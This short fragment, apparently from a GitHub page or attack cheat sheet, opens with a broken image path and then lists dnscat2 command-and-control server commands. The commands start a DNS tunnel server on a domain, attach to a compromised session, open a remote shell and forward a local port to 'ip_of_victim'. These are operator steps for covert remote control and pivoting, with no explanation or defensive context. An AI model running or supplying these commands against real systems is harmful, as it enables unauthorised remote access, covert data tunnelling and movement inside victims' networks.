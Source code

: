# Server
```
dnscat2-server tunnel.com
session -i SESSION#
shell

listen 127.0.0.1:PORT ip_of_victim:PORT
```
